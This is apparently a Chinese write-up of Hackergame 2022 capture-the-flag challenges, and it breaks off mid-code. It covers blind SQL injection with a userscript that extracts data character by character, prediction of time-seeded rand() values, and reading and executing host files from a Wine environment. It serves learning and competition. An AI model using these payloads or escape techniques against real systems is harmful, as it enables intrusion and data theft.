在 PHP 中，GET 参数存在 `$_GET` 里，POST 参数存在 `$_POST` 里，而另有一个集 GET、POST 和 Cookie 为一身的变量 `$_REQUEST`。按照最佳实践要求，应当多用 `$_REQUEST`。因此很多 PHP 程序是对 GET/POST 不敏感的。

我们注意到这里有一个 `do: diff`。

于是搬到 Flag Wiki 上试试看：

```plain
http://202.38.93.111:15004/doku.php?id=start&do=diff
```


诶，flag 出来了。

### 不可行的做法

#### 枚举 UNIX 时间戳找到包含 flag 的修订版

包含 flag 的修订版创建于 2022 年 10 月 8 日。脚本要一秒一秒枚举到那个时间，除非优化极佳且挂在某个不间断的服务器上，否则很有可能无法在比赛结束前完成。

### Flag

```plain
flag{d1gandFInD_d0kuw1k1_unexpectEd_API}
```

Dig and find DokuWiki unexpected API.

## 11. 线路板 (*150)

> 关键词：Altium Design

解压压缩文件，会看到一大堆 `grb` `grbjob` `drl` 文件，并且看起来是用 KiCad Pcbnew 生成的。

上网查找文件格式，得知这种格式叫做 Gerber，性质类似于印刷工业的 `pdf`，是实际加工使用的文件格式，使用 Altium Design 软件可以逆向。于是，下载一个 Altium Design ~~破解版~~。

根据网上的教程，先选择 `File -> New -> CAM Project`。然后是 `File -> Import -> Gerber`。选择所有 `grb` 文件，使用默认设置导入。


电路板中间偏下的位置有一个 `flag` 字样。在左侧窗口 CAMStatic 中勾选 flag 所在的图层 `f_cu`。放大界面。


看来电路板上的 flag 看不清不是什么加工质量问题，而是在设计文件里就被盖掉了。如何编辑把 flag 找出来？尝试点一下 `Edit -> Move`，框选 flag 所在的区域（设计软件的框选逻辑一般是只选中完全在框内的对象）。


好的，不用编辑了，flag 已经高亮出来了。接下来注意不要抄错即可。

### 不可行的做法

#### 文本查找

我有一个朋友，试图在文件中查找 `flag` 文本。可是，用来加工的 PCB 设计文件，怎么会包含文本呢？

### Flag

```plain
flag{8_1ayER_rogeRS_8lind_V1a}
```

8 layer rogers blind ???

## 20. 光与影 (*250)

> 关键词：WebGL、GLSL looks like C、逆向追踪

光与影？WebGL？Intel 核显会出问题？难道这是 MC 光影所使用的 GLSL？虽然我不懂 GLSL，但是我尝试过魔改和仿写一些 MC 光影代码。所以，这题也可以试试。

打开网页，页面卡了好一会儿，然后显示出了一个 3D 渲染程序，播放后，看到一个星球表面的地形。相机在星球上空行进，天空中还有一个 `flag` 字样，但是内容被涂掉了。


打开源代码看看，果然是 GLSL。


这是个长期比赛，因此这题不太可能是“时间足够长就会 出flag”，显然是需要通过修改 GLSL 代码来显示出 flag。所以，先 Ctrl+S 一下，将内容保存到本地。为了防止调试的时候卡得太痛苦，我选择用备用浏览器打开，并为其指定核逝的显卡。

看一眼 GLSL 代码，发现 Vertex Shader 只有这么一点内容。所以主要内容在 Fragment Shader 里。

```glsl
// an attribute will receive data from a buffer
attribute vec4 a_position;

// all shaders have a main function
void main() {
  // gl_Position is a special variable a vertex shader
  // is responsible for setting
  gl_Position = a_position;
}
```

我们从 Fragment Shader 的主程序开始，逐步寻找显示 flag 的代码位于何处。GLSL 其实就是 C 语言，只不过针对渲染场景增加了很多数据类型和关键字。

```glsl
void main() {
    mainImage(gl_FragColor, gl_FragCoord.xy);
}
```

```glsl
void mainImage( out vec4 fragColor, in vec2 fragCoord ) {
    ...
    
    vec3 outColor;
    if (distClosest > 10.0 * RAYMARCH_SURF_DIST) {
        outColor = shadeSkybox(rayD);
    } else {
        outColor = shadeScene(rayO + tClosest * rayD, isTerrain);
    }

    // Output to screen
    fragColor = vec4(outColor, 1.0);
}
```

这里的 `outColor` 可能取决于 `shadeSkybox`，也可能取决于 `shadeScene`。但是，`shadeSkybox` 的内容是：

```glsl
vec3 shadeSkybox(vec3 rayD) {
    return vec3(0.0, 0.0, 0.0);
}
```

好的，看来应该是 `shadeScene`。

```glsl
vec3 shadeScene(vec3 isect, bool terrain) {
    // contrib from mainLight - point light
    vec3 lightPos = vec3(25.0, 10.0, -38.0);
    
    // test if the light can reach our ball
    vec3 light2Isect = normalize(isect - lightPos);
    vec3 objColor = vec3(0.0, 1.0, 0.0);
    bool dummy = false;

    float rayDist, lightT =
        rayMarchHybrid(lightPos, light2Isect, rayDist, objColor, dummy);
    float visibility = 0.0;
    if (length(lightPos + lightT * light2Isect - isect) < 10. * RAYMARCH_SURF_DIST) {
        // shall contribute light
        visibility = 1.0;
    }
    
    vec3 lightColor = vec3(0.5, 0.5, 0.5);
    vec3 lightL = lightColor * 40.5;
    
    vec3 isectN = terrain ? heightMapNormal(isect) : sceneNormal(isect);
    vec3 lightContrib = \
        visibility * clamp(dot(isectN, normalize(lightPos - isect)), 0., 1.) *
        lightL * objColor / length(isect - lightPos);
    
    return lightContrib;
}
```

这里事情就略微复杂了。稍微分析，可以看出，比较关键的内容有两个，`rayMarchHybrid` 和 `isectN`。先修改一下 `isectN` 看看会怎样。这里条件 `terrain` 显然是表示“是否是地形”。

```glsl
    vec3 isectN = (terrain || true) ? heightMapNormal(isect) : sceneNormal(isect);
```

```glsl
    vec3 isectN = (terrain && false) ? heightMapNormal(isect) : sceneNormal(isect);
```


看来 `isectN` 是一个类似“后期辅助处理”的效果。真正的关键不在 `isectN` 里。看 `rayMarchHybrid`。

```glsl
float rayMarchHybrid(vec3 rayO, vec3 rayD, out float dist,
  out vec3 pColor, out bool isTerrain) {
    vec3 pColorMap = vec3(0.0), pColorSDF = vec3(0.0);
    float distHMap = 1e6, distSDF = 1e6;
    
    float tHMap = intersectHeightMap(rayO, rayD, distHMap, pColorMap);
    float tSDF = rayMarchConservative(rayO, rayD, distSDF, pColorSDF);
    
    if (tHMap < tSDF) {
        dist = distHMap;
        pColor = pColorMap;
        isTerrain = true;
        return tHMap;
    } else {
        dist = distSDF;
        pColor = pColorSDF;
        isTerrain = false;
        return tSDF;
    }
}
```

这里也有两个关键内容，`intersectHeightMap` 和 `rayMarchConservative`。但是，根据后文的 `isTerrain` 可以推出，`intersectHeightMap` 管的是地形，而 `rayMarchConservative` 管的是天上的 flag。继续！

```glsl
float rayMarchConservative(vec3 rayO, vec3 rayD, out float dist, out vec3 pColor) {
    vec3 curIsect = rayO;
    rayD = normalize(rayD);
    float t = 0.0;
    for (int i = 0; i < RAYMARCH_MAX_STEPS; i++) {
        dist = sceneSDF(curIsect, pColor);
        if (dist < RAYMARCH_SURF_DIST) {
            pColor = vec3(1.0);
            break;
        } else if (dist > RAYMARCH_MAX_DIST) {
            pColor = vec3(0.0);
            return t;
        }
        
        t += dist * RAYMARCH_CONSERVATIVE_FACTOR;
        curIsect = rayO + t * rayD;
    }
    return t;
}
```

关键是 `sceneSDF`。继续！

```glsl
float sceneSDF(vec3 p, out vec3 pColor) {
    pColor = vec3(1.0, 1.0, 1.0);
    
    vec4 pH = mk_homo(p);
    vec4 pTO = mk_trans(35.0, -5.0, -20.0) * mk_scale(1.5, 1.5, 1.0) * pH;
    
    float t1 = t1SDF(pTO.xyz);
    float t2 = t2SDF((mk_trans(-45.0, 0.0, 0.0) * pTO).xyz);
    float t3 = t3SDF((mk_trans(-80.0, 0.0, 0.0) * pTO).xyz);
    float t4 = t4SDF((mk_trans(-106.0, 0.0, 0.0) * pTO).xyz);
    float t5 = t5SDF(p - vec3(36.0, 10.0, 15.0), vec3(30.0, 5.0, 5.0), 2.0);
    
    float tmin = min(min(min(min(t1, t2), t3), t4), t5);
    return tmin;
}
```

这里出现了 `min(t1, t2, t3, t4, t5)`。这是五个交叠在一起取最小值的量，或许有一个就是屏蔽 flag 内容的遮罩。离胜利应该很近了。现在，试试将它们分别屏蔽掉，像这样：

```glsl
    t1 = 20190816170251.0;
```

这是得到的五张图：

  


Flag 已经出现了！

### Flag

```plain
flag{SDF-i3-FuN!}
```

SDF is fun? 等等，这个 SDF 好像在哪见到过。这跟 sdf.org 有关系吗？

## 7. 猜数字 (*150)

> 关键词：浮点运算、F12

这样的一个游戏，可能出现这些问题

- 会话管理混乱或有漏洞可以利用。
- 随机数生成方法不安全，可以预测。
- 猜数判定有漏洞。

对于会话管理，要猜的数和猜测次数看起来是一起存储的，很难利用漏洞。会话管理是基于玩家的 Token，也很难搞“开小号”这种操作。

爆破固然是一种方法，但其效率是非常低的。如果第一次没猜对，则需要继续猜测直到猜对，才能进行下一轮。显然，会有更好的方法。

至于随机数生成，生成器的名字叫 `SecureRandom`。很明显这不是能拿来预测的。

不难看出，猜数的判断在 `GuessNumber # State # State update(Token, int, int, double, OptionalDouble)` 中。

```java
if (event.isCharacters()) {
   var path = List.of("state", "guess");
   if (!path.equals(nameStack)) continue;
   if (result.isPresent()) throw new XMLStreamException();
   try {
      var guess = Double.parseDouble(event.asCharacters().getData());

      var isLess = guess < this.number - 1e-6 / 2;
      var isMore = guess > this.number + 1e-6 / 2;

      var isPassed = !isLess && !isMore;
      var isTalented = isPassed && this.previous.isEmpty();

      var newPassed = isPassed ? this.passed + 1 : this.passed;
      var newTalented = isTalented ? this.talented + 1 : this.talented;
      var newNumber = isPassed ? RNG.nextInt(1, 1000000) * 1e-6 : this.number;
      var newPrevious = isPassed ? OptionalDouble.empty() : OptionalDouble.of(guess);

      result = Optional.of(new State(this.token, newPassed, newTalented, newNumber, newPrevious));
   } catch (NumberFormatException e) {
      throw new XMLStreamException(e);
   }
}
```

若猜测小于目标数，则 `isLess`；若大于目标数，则 `isMore`。若既不 `isLess` 又不 `isMore`，则 `isPassed`；若一次就猜对，则 `isTalented`。

想到去年卖瓜的题目，这里可以尝试输入一些奇怪的数让程序出问题。那么，有什么数可以不等于一个给定的数，却可以既不小于又不大于它呢？如果对程序语言中浮点的运算规律有了解，就会知道这个数是 `NaN` (Not a number)。

可惜输入不得。怎么办呢？这个好办！打开浏览器开发者工具 (F12)，选中输入框，修改表单：

```html
<p>
  输入你的猜测：
  <input type="number" id="input" oninput="change(value)">
  <input type="submit" id="submit" onclick="submit()" value="提交">
</p>
```

修改成

```html
<p>
  输入你的猜测：
  <input type="text" id="input" oninput="change(value)">
  <input type="submit" id="submit" onclick="submit()" value="提交">
</p>
```

输入后，提交按钮会变灰。删除其上的 `disabled` 属性即可。

提交，即可获得 flag。

注：事实上可以输入任意不能被转换为浮点数的字符串（比如 `abc`），得到的结果都是 `NaN`。

### 不太可行的做法

#### 暴力爆破

不清楚应该如何定性这种方法。如果你对运气有信心，也许可以。

乐观假设每秒可以尝试 10 次，大概是 0.53 轮。则 7 天可以猜测 318125 次。均没有猜中的概率是 $(\frac{999999}{1000000})^{318125}=0.728$。这是一个耗时且令人焦虑的工作，并且胜算不大。

### Flag

```plain
flag{gu3ss-n0t-a-numb3r-1nst3ad-e00207a713198165}
```

Guess not a number instead! 猜数太难？别猜数，猜“不是数” (Not a Number)！

## 15. 蒙特卡罗轮盘赌 (*200)

> 关键词：可预测伪随机数

为了防止运气太好，采用五局三胜？听我说谢谢你！

这题的标签是 math，但看起来不是很数学，应该是密码学。打开程序看一眼，果不其然。

```cpp
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    
    srand((unsigned)time(0) + clock());
    int games = 5;
    int win = 0;
    int lose = 0;
    char target[20];
```

这里直接使用了 C 语言内置的 `srand` 和 `rand`。众所周知，在密码学上，这个随机数生成方法是非常不安全的，因为其结果很容易预测。其中，`time(0)` 表示当前的 UNIX 时间戳，单位是秒；`clock()` 表示从程序开始运行起的 CPU 时钟值，视运行环境，单位是毫秒或 $10^{-4}$ 秒。因此，`time(0) + clock()` 的值是与当前 UNIX 时间戳相当接近的（不会比其小，并且偏大不超过 1000）。如果已知题目的终端是何时打开的，那么其随机数种子就已经可以限定在一个很小的范围内了。

这里，五局三胜就有用了。注意到一旦猜错，对面会将答案直接告诉我们，而拿到一个或两个答案，我们就可以在一个很小的范围内暴力枚举随机数种子，并利用这一个或两个答案检验。一旦检验出正确的种子，我们就可以预测接下来的答案。在具体实现上，考虑：

- 事实上随机得到的 `pi` 可能性较大的取值数量并不多。因此，用两个答案对随机数种子进行检验更加保险。
- 本地与服务器上时间可能略有差异。因此若打开题目终端时本地系统的时间为 $t$，则在 $[t-150, t+1000)$ 区间内枚举随机数种子。

再次利用脚本，以准确获取打开终端时的系统时间。

```javascript
// ==UserScript==
// @name        Hackergame 2022 MonteCarlo
// @namespace   Hackergame 2022
// @require     https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js
// ==/UserScript==

setTimeout(() => {
  let ts = Math.floor(+new Date() / 1000)
  let delta = 0
  console.log('Time is', ts + delta)
}, 600)
```

然后，对程序做一些修改，使其按以下方式运作：

- 打开时先询问用户脚本给出的时间戳。
- 接下来询问用户通过猜错得到的两个正确答案。
- 暴力枚举种子。一旦发现匹配的种子，则根据它预测出五个随机数结果。

```cpp
int main() {
    // disable buffering
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    srand((unsigned)time(0) + clock());

    printf("Current timestamps is %u\n", (unsigned)time(0));
    
    unsigned seed = 0;
    printf("Give me a timestamp: ");
    scanf("%u", &seed);

    printf("Give me two targets: ");
    double firstAns = 0.0;
    scanf("%lf", &firstAns);
    double secondAns = 0.0;
    scanf("%lf", &secondAns);
    for(unsigned seed1 = seed - 150; seed1 < seed + 1000; seed1++) {
        srand(seed1);
        int M = 0;
        int N = 400000;
        for (int j = 0; j < N; j++) {
            double x = rand01();
            double y = rand01();
            if (x*x + y*y < 1) M++;
        }
        double pi = (double)M / N * 4;
        M = 0;
        for (int j = 0; j < N; j++) {
            double x = rand01();
            double y = rand01();
            if (x*x + y*y < 1) M++;
        }
        double pi2 = (double)M / N * 4;
        if(fabs(pi - firstAns) < 1e-7 && fabs(pi2 - secondAns) < 1e-7) {
            printf(">>> Oh, I see, seed could be %u\n", seed1);
            srand(seed1);
            int games = 5;
            int win = 0;
            int lose = 0;
            char target[20];
            char guess[2000];
            for (int i = games; i > 0; i--) {
                int M = 0;
                int N = 400000;
                for (int j = 0; j < N; j++) {
                    double x = rand01();
                    double y = rand01();
                    if (x*x + y*y < 1) M++;
                }
                double pi = (double)M / N * 4;
                sprintf(target, "%1.5f", pi);
                printf("请输入你的猜测（如 3.14159，输入后回车）：");
                // fgets(guess, 2000, stdin);
                guess[7] = '\0';
                if (strcmp(target, guess) == 0) {
                    win++;
                    printf("猜对了！\n");
                } else {
                    lose++;
                    printf("猜错了！\n");
                    printf("正确答案是：%1.5f\n", pi);
                }
                // if (win >= 3 || lose >= 3) break;
            }
            if (win >= 3) {
                printf("胜利！\n");
                system("cat /flag");
            }
            else printf("胜败乃兵家常事，大侠请重新来过吧！\n");
        }
    }
    return 0;
}
```

众所周知，Windows 和 Linux 上的随机数实现是不同的。因此在 Linux 下编译这个程序。

万事俱备，只欠东风！


### Flag

```plain
flag{raNd0m_nUmb34_a1wayS_m4tters_978aa8e398}
```

Random numbers always matters! 随机数的安全性一定要留意。

## 30. 企鹅拼盘 (*250/600, task 1,2)

> 关键词：暴力枚举

第一个子任务输入串长度为 4，显然手动枚举就行。答案是 `1000`。

第二个子任务，都说了是大力出奇迹，所以直接写程序暴力求解。

```python
import json

mat = [[1 + i * 4 + j for j in range(4)] for i in range(4)]
mat[3][3] = 0
orig = [[1 + i * 4 + j for j in range(4)] for i in range(4)]
orig[3][3] = 0
vx = 3
vy = 3

data = json.load(open('data2.json', 'r'))
digits = 16
branches = 256

def perform(move: str):
    global vx, vy, mat
    nx = vx
    ny = vy
    if move == 'L':
        ny -= 1
    elif move == 'R':
        ny += 1
    elif move == 'U':
        nx -= 1
    elif move == 'D':
        nx += 1
    else:
        assert(False)
    assert(0 <= nx < 4 and 0 <= ny < 4)
    mat[nx][ny], mat[vx][vy] = mat[vx][vy], mat[nx][ny]
    vx = nx
    vy = ny

def performs(moves: str):
    for move in moves:
        perform(move)

def reset():
    global mat, orig
    for i in range(4):
        for j in range(4):
            mat[i][j] = orig[i][j]

def isDone():
    global mat, orig
    return mat != orig

for i in range(0, 1<<digits):
    reset()
    for o in range(0, branches):
        move1 = data[o][2]
        move2 = data[o][1]
        dig = data[o][0]
        move = ''
        if i & (1 << dig):
            move = move2
        else:
            move = move1
        performs(move)
    # print(mat)
    if isDone():
        print('!!!', i)
        exit()
    if i % 10 == 0:
        print('Done', i)
```

此程序运行后得到结果 25076。将其二进制补上前导 0，然后逆序，得到输入 `0010111110000110`。

### Flags

```plain
flag{it_works_like_magic_db8b4a45e1}
```

It works like magic!

```plain
flag{Branching_Programs_are_NC1_43ae6b7df1}
```

Branching programs are NCI?

## 22. 你先别急 (*300)

> 关键词：SQL 注入攻击、大胆猜想-小心求证

这题乍一看甚至不知道 flag 在哪里。但是，题目已经进行了提示，说“这个数据库中还不小心存放了一些重要信息”。也就是说，这个动态验证码后端是借助数据库实现的。那么，这题就是要通过 SQL 注入攻击来获取或推断数据库里存放的 flag。

先看一看验证码生成逻辑。

```python
def generate_captcha(riskness: int):
    digits = "0123456789"
    letters = "abcdefghijkmnpqrtuvwxy" + "ABCDEFGHJKLMNPQRTVWXY"

    def rstr(alphabet, length):
        return "".join(random.choice(alphabet) for _ in range(length))

    riskness_lut = {
        # (digits, letters)
        1: (9, 0),
        ...
        9: (0, 9),
    }

    cap_str = ""

    cap_str += rstr(digits, riskness_lut[riskness][0])
    cap_str += rstr(letters, riskness_lut[riskness][1])

    ImageCaptcha(width=160 * 2).write(cap_str, f"./test-{riskness}.png")
```

最后一行看似有对文件路径实施注入的可能性。但是再仔细观察，会发现，事实上这个 `generate_captcha` 在传入不存在的 `riskness` 时就会直接出错，根本不会写入文件。看来这份文件并没有太大用处，还是得从网页上入手。

<mdc-imgborder>

首先，尝试利用开发者工具 (F12) 修改界面，提交一个 `Alice-1` 用户名，然后选中。



结果是得到了一张地狱难度的验证码（相当于选项菜单中的最高级别）。这样，就得到的两条有用的信息。

</mdc-imgborder>

- 此验证码的实现，就是在数据库中查询对应的用户名，然后根据结果给出风险等级 `riskness`。
- 若查询数据库时没有查到任何内容，将直接采用最高等级的验证码。

按照一般的经验，我们假设系统查询数据库执行的语句是：

```sql
select ?风险等级(也许还有别的)? from ?数据表? where ?用户名? = '$input'
```

这里用 `?` 包裹的值表示现在还不确定的内容。

先尝试将用户名修改成 `Simple-1' -- `，其中 `--` 能够将后面的内容注释掉。这样，如果没有防范 SQL 注入攻击，SQL 语句就会变为：

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' -- '
```

这个语句应当会成功执行，并给出 `Simple-1` 对应的风险等级——`1`。果不其然，系统给出了一张全为数字的验证码。这证明了系统确实是没有防范 SQL 注入攻击的。为了进一步攻击，我们还需要解决两个问题：

- 上面语句中三个不确定的值究竟是什么？
- 现在已知没有查询到结果时，会直接给出最难的验证码。那么如果 SQL 语句语法出错呢？如果查询到了多个结果呢？

首先解决第二个问题。提交用户名 `Simple-1' `，这样就会执行语句

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' '
```

这是个错误的语句。结果是，系统给出了最难的验证码。因此，我们断言，SQL 语法出错时，系统将给出最难的验证码。接下来提交 `Simple-1' or 1=1 -- `，会获得

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' or 1=1 -- '
```

这将会使得筛选条件失效，导致选出用户风险等级表中的所有内容，一定会包含多个值。我们发现系统给出了最简单的验证码。于是，我们知道了：

- 当匹配到多个风险等级数据时，使用第一个数据。

并且，数据表的样子应该至少是：

|数据表 `?数据表?`|`?用户名?`|`?风险等级?`|
|-|-|-|
|1|Simple-1|1|
|2|Azusa-3|3|
|3|RELX-5|5|
|4|Diana-7|7|
|5|AzumaSeren-8|8|
|6|OP-9|9|

接下来，试探数据表的结构。

首先，探测 `?用户名?` `?风险等级?` 两列的名称，根据经验和 Python 代码可以猜测是 `username` 和 `riskness`。注入：

```plain
Simple-1' order by username --
Simple-1' order by riskness --
```

分别得到

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' order by username -- '
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' order by riskness -- '
```

两次注入均得到纯数字验证码。看来，`username` 和 `riskness` 是存在的。接下来，判断 `select` 究竟选中了几列。

```plain
Simple-1' union select '1', '1' --
Simple-1' union select '1' --
```

```sql
select ?风险等级...? from ?数据表? where username = 'Simple-1'
  union select '1', '1' -- '
select ?风险等级...? from ?数据表? where username = 'Simple-1'
  union select '1' -- '
```

提示：`union` 是将两次 `select` 的结果连接起来，只有列数一样才可以连接（不要求数据类型一样）。

结果只有后者给出了纯数字验证码，前者因为出错给出了最难的验证码。这表明 `select` 操作只选择了一列。这一列只能是 `riskness`。

最后，数据表名称。猜测 `users`。

```plain
Simple-1' union select '1' from users
```

```sql
select riskness from ?数据表? where username = 'Simple-1'
  union select '1' from users -- '
```

好的，没有问题！最后验证 `users` 是否就是这张数据表。

```plain
Simple-1' and 1=0 union select riskness from users where username = 'Simple-1' --
```

```sql
select riskness from ?数据表? where username = 'Simple-1'
  union select riskness from users where username = 'Simple-1' -- '
```

也没问题。这就完全没有疑虑了。现在数据表的结构已经摸清楚了。

那么 flag 在哪呢？估计有两种可能，并适当猜测：

- `users` 表中有名为 `flag` 的用户。
- 另有 `flag` 数据表，内含一列称为 `flag`，这里包含 flag 的值。

先验证第一个。

```plain
Simple-1' and 1=0 union select '1' from users where username = 'flag' --
```

```sql
select riskness from users where username = 'Simple-1' and 1=0
  union select '1' from users where username = 'flag' -- '
```

这个失败了。下一个。

```plain
Simple-1' union select flag from flag --
```

```sql
select riskness from users where username = 'Simple-1'
  union select flag from flag -- '
```

并没有出现什么错误。但是，如何把 flag 的信息传递出来呢？似乎没有办法传递这么一长串文本。我们知道，如果匹配成功，系统会显示简单的数字验证码；如果没成功，则会显示高难度的验证码。于是我们可以使用猜 flag 的方法。使用 `where instr(flag, 'flag{...')` 可以检验某字符串是否是 flag 的前缀（这里利用了大括号中不可能再出现 `flag{` 这一点）。这样，就可以逐个枚举字符来构造出 flag。

注：这里没有使用 `like`。这是因为 `like` 的模式串中涉及过多特殊字符难以处理，且这种比较不区分大小写。

至于怎么判断验证码是否是数字验证码... 那就手动吧。就这么点工作量，不会有逝的。剩下的工作，就交给脚本了！

```javascript
// ==UserScript==
// @name        Hackergame 2022 DontPanic
// @namespace   Hackergame 2022
// @require     https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js
// ==/UserScript==

$(() => {
  let getCaptchaData = (username) => new Promise((resolve) => {
    // 验证码的显示方式是先获取 base64 编码，然后显示到图片框上。
    $.ajax({
      url: 'captcha',
      type: 'POST',
      data: {
        username: username
      },
      dataType: 'json',
      success: (e) => {
        if(e.result) {
          resolve(e.result)
        } else {
          resolve(null)
        }
      },
      error: (e) => {
        resolve(null)
      }
    })
  })
  let showCaptcha = (data) => {
    $('#capimg').attr('src', 'data:image/png;charset=utf-8;base64,' + data)
  }
  let delay = (t) => new Promise((resolve) => {
    setTimeout(resolve, t)
  })
  let tryFlagPrefix = async (text) => {
    let inject = `Simple-1' and 1=0 union select '1' from flag ` +
      `where instr(flag, '${text.replace(/'/g,"''")}') -- `
    showCaptcha(await getCaptchaData(inject))
    await delay(50)
    return confirm('Does the captcha look good?' + "\n" + text)
  }

  let charset = `0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz` +
    `'!"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_${'`'}{|}~`

  let prefix = ''
  if(localStorage.getItem('panic-checkpoint')) {
    prefix = localStorage.getItem('panic-checkpoint')
  }

  let tryCharacter = async () => {
    for(let i = 0; i < charset.length; i++) {
      let ch = charset[i]
      let currentFlag = 'flag{' + prefix + ch
      console.log('Injecting', currentFlag)
      if(await tryFlagPrefix(currentFlag)) {
        console.log('Try submitting', currentFlag)
        return ch
      }
    }
    return null
  }

  let crackFlag = async () => {
    while(true) {
      let ch = await tryCharacter()
      if(ch === null) {
        console.log('The story ended.')
        prompt('Your result', 'flag{' + prefix + '}')
        break
      }
      let cf = prompt('Do you accept this?', 'flag{' + prefix + ch + '}')
      if(cf === null) {
        break
      }
      prefix += ch
      localStorage.setItem('panic-checkpoint', prefix)
    }
  }

  let verifyFlagStrict = async (text) => {
    let inject = `Simple-1' and 1=0 union select '1' from flag ` +
      `where flag='${text.replace(/'/g,"''")}' -- `
    showCaptcha(await getCaptchaData(inject))
    await delay(50)
    return confirm('Does the captcha look good?' + "\n" + text)
  }

  Object.assign(window, { tryCharacter, crackFlag, verifyFlagStrict })
})
```

先执行 `await crackFlag()`。接下来只要手动判断并输入每个验证码是否“好看”就行了。应该不需要太长时间就能得到 `flag{JiJi04441514aa}`。

### 不太可行的做法

#### 将 flag 写入到外部文件

也许可以，至少我没有成功。

```plain
Simple-1' union select flag from flag into outfile '/var/www/1.txt' --
```

```sql
select riskness from users where username = 'Simple-1'
  union select flag from flag into outfile '/var/www/1.txt' -- '
```

这样会出现错误。

### Flag

```plain
flag{JiJi04441514aa}
```

## 14. 杯窗鹅影 (*400)

Wine 是 Linux 下的一个兼容环境，可以允许原生地运行 Windows 应用。

第一个问题是如何在 Linux 的 Wine 上方便地测试。题目已经给了一个提示——使用交叉编译方法在 Linux 上编译 C 语言程序。当然，其实还有一个更加偷懒的方式——把 Windows 上的 MinGW 编译器直接放到 Wine 环境下 (命令行 `wine cmd`) 运行。至于 Wine 如何修改 PATH，上网搜索并不难找到方法。

接下来，我们在根目录下放置模拟的文件，方便测试。

```plain
-rw-r--r--   1 root root      flag1
-rwxr-xr-x   1 root root      readflag
```

在 Wine 中，磁盘 `Z:` 默认指向 Linux 的根目录。接下来，我们像题目里说的那样，删掉 `Z:` 的磁盘映射。这个符号链接位于 `~/.wine/dosdevicecs/` 中。事实上，重命名成别的不合法名称也可以将其禁用。

```plain
lrwxrwxrwx 1 vm vm  1  z: -> /
```

输入 `wine explorer` 打开文件管理器，看看是否禁用成功。


文件管理器竟然还是能浏览根目录！怎么会逝呢？


原来如此！使用默认的 `Z:`，或者使用网络地址 `\\?\unix`，都能映射到 Linux 根目录。

那么使用 `type \\?\unix\flag1` 命令，就可以打出内容。试试看。

```cpp
#include<stdio.h>
#include<stdlib.h>

int main() {
    system("type \\\\?\\unix\\flag1");
}
```


可以。把 exe 交上去看看？

<mdc-imgborder>


</mdc-imgborder>

为什么不行呢？因为包括 `start.exe`, `cmd.exe`, `winebrowser.exe`, `wineconsole.exe` 在内的部分程序已从环境中删除。

那可以直接用文件读取的方法。

```cpp
#include<stdio.h>
#include<stdlib.h>

int main() {
    printf("Hello, world!\n");
    const char *filepath = "\\\\?\\unix\\flag1";
    FILE *fp = fopen(filepath, "r");
    char buf[4096];
    fgets(buf, 4096, fp);
    printf("%s\n", buf);
}
```

<mdc-imgborder>


</mdc-imgborder>

第一个 flag 就到手了。

第二个 flag 需要运行 `/getflag` 才能显示。所以，我们上网找一找如何 Access Linux ccommand from Wine。网上给出了一个方法，可以在 Linux 上弹出 gedit（有点类似 Windows 弹计算器）。

```plain
start /unix /usr/bin/gedit
```

根据帮助文档，

```plain
/unix           使用 Unix 文件名并像 Windows 资源管理器一样启动文件。
```

某种意义上，弹出一个 gedit 确实是大胜利，但是这样启动 `/getflag` 并不能得出输出内容，且在只读环境下，也很难用其他方式传递结果。更加糟糕的是，这个环境把 `start.exe` 也干掉了。尽管 `start.exe` 只有 270KB，想要在只读环境里运行它也是难上加难（如果看过去年题解，会知道这个操作叫做 Execute PE in memory）。于是，这种方法就不值得尝试了。

但是何不研究一下这个神奇的 `start.exe` 呢？我心血来潮将其传输到了 Windows 主机上，然后执行了一个 `start /unix /usr/bin/gedit`。

```plain
PS [redacted]> .\start /unix /usr/bin/gedit
无法将指定 Unix 文件名转换为 DOS 文件名。
```

转换为 DOS 文件名？难道 `/unix` 选项干的只是这件事？回到 Wine，运行一下 `start \\?\unix\usr\bin\gedit` 看看。这样也能弹出 gedit！看来，问题并不在于 `/unix` 上，甚至不在于 `start` 上。

再试试运行 `\\?\unix\usr\bin\gedit`？

```plain
无法将 "\\?\unix\usr\bin\gedit" 识别为内部或外部命令，或者批处理脚本。
```

情况似乎是，这种程序可以通过直接调用文件名（像 `start` 命令那样）运行，但是却不能通过命令行执行。上网找一找 C 语言中调用外部程序的方式，或许能解决问题。

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<process.h>

int main() {
    _execl("\\\\?\\unix\\readflag", "readflag", NULL);
}
```


It's too good to be true, isn't it?

<mdc-imgborder>


</mdc-imgborder>

Not really.

### Flags

```plain
flag{Surprise_you_can_directory_traversal_1n_WINE_0c0c180a26}
```

Surprise! You can directory traversal in Wine! But I didn't do that...

```plain
flag{W1ne_is_NeveR_a_SaNDB0x_b466df9c30}
```

Wine is never a sandbox!

## 17. 惜字如金 (*200/450, task1)

> 关键词：文物修复、暴力枚举

先看第一个程序 `HS384.py` 首先是要对程序进行一些修复工作。进行一些简单且显而易见的修复后，程序是这样的：

```python
#!/usr/bin/python3

# The size of the file may reduce after XZRJification

from base64 import urlsafe_b64encode
from hashlib import sha384
from hmac import digest
from sys import argv


def check_equals(left, right):
    # check whether left == right or not
    if left != right: exit(0x01)


def sign(file: str):
    with open(file, 'rb') as f:
        # import secret
        secret = b'ustc.edu.cn'
        check_equals(len(secret), 39)
        # check secret hash
        secret_sha384 = 'ec18f9dbc4aba825c7d4f9c726db1cb0d0babf47f' +\
                        'a170f33d53bc62074271866a4e4d1325dc27f644fdad'
        check_equals(sha384(secret).hexdigest(), secret_sha384)
        # generate the signature
        return digest(secret, f.read(), sha384)


if __name__ == '__main__':
    try:
        # check some obvious things
        check_equals('create', 'cre' + 'ate')
        check_equals('referrer', 'refer' + 'rer')
        # generate the signature
